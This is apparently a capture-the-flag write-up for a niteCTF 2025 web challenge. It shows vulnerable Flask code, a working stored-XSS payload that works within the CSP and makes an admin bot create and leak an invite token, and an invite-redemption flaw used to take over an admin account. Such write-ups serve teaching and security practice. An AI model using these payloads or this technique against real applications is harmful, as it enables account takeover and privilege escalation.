








# niteCTF 2025 - Just Another Notes App Write-up



This challenge involved a multi-step web vulnerability, requiring a combination of Stored XSS, a CSP bypass, and the exploitation of a business logic flaw in the invite system to gain administrative privileges and capture the flag.

### Step 1: Stored XSS Discovery and CSP Analysis

The initial analysis began with the note-creation functionality. The application allows an authenticated user to create notes, which are then rendered on a separate page.

**Vulnerability Analysis (`app.py`):**
The code for the `/notes/<note_id>` endpoint renders the note's content (`note.content`) directly into the Jinja2 template without any sanitization or output encoding. This is a classic Stored Cross-Site Scripting (XSS) vulnerability.

```python
# From app.py
@app.route('/notes/<note_id>')
def view_note(note_id):
    if 'user_id' not in session:
        return redirect(url_for('login'))
    
    note = Note.query.get_or_404(note_id)
    
    # ... Access checks ...

    # Vulnerability: note.content is rendered without escaping
    response = make_response(render_template('view_note.html', note=note))
    return response
```

However, exfiltrating cookies or data to an external server was prevented by a strict Content Security Policy (CSP) set by the application.

```python
# From app.py
@app.after_request
def set_cookie(response):
    # The connect-src 'self' directive blocks requests (fetch/XHR) to external domains
    response.headers['Content-Security-Policy'] = "default-src 'none'; script-src 'self' 'unsafe-inline'; connect-src 'self';"
    return response
```

### Step 2: CSP Bypass and Payload Crafting

Since the `connect-src 'self'` policy prevented sending data to an external webhook, the strategy shifted to using the XSS to perform actions within the application itself. The plan was to force the admin bot, which would visit our page, to generate an invite token and store it where we could read it—in a new note created by the bot itself.

**The Final Payload:**
This script forces the admin's browser to first generate an invite, then fetch the URL containing the token via the `/getToken` endpoint, and finally, create a new note with the stolen URL as its content. All requests are made to the same domain, so the CSP does not block them.

```html
<script>
  fetch('/admin/generate_invite', {
    method: 'POST'
  })
  .then(() => {
    return fetch('/getToken');
  })
  .then(response => {
    // response.url now contains the full URL with the token
    const formData = new FormData();
    formData.append('content', response.url);

    // Create a new note as the admin, containing the stolen URL
    return fetch('/notes', {
      method: 'POST',
      body: formData
    });
  });
</script>
```



### Step 3: Exploitation via the Admin Bot

With the payload ready, the next step was to make the admin bot visit the malicious note. This was done using the provided `ncat` connector after solving the required Proof of Work.

After solving the PoW, the URL to the malicious note was sent to the bot. The bot visited the page, and the XSS script executed successfully within its session.



Immediately after, a new note—created by the bot—appeared in my list of notes.



### Step 4: Privilege Escalation and Flag Capture

The new note's content was a URL containing a valid invite token.

**Vulnerability Analysis (`app.py`):**
The `/accept_invite` endpoint validates the token but critically **fails to check which user is redeeming it**. This allows any user who obtains a valid token to elevate their account to admin status.

```python
# From app.py
@app.route('/accept_invite', methods=['GET', 'POST'])
def accept_invite():
    # ...
    invite = InviteCode.query.filter_by(code=token, used=False).first()
    # ...
    user = User.query.get(session['user_id'])
    # Vulnerability: NO check to ensure user.username matches invite.target_user
    user.is_admin = True
    # ...
    db.session.commit()
    return redirect(url_for('admin'))
```

I extracted the token from the note, submitted it on the `/accept_invite` page, and successfully escalated my privileges.





This granted me access to the admin panel.



The final step was to retrieve the flag. As specified in the source code, the flag is set as a browser cookie upon visiting the `/admin` page. I opened the browser's developer tools and found the flag in the cookie storage.



**Flag:** `nite{r3qu3575_d0n7_n33d_70_4lw4y5_c0mpl373}`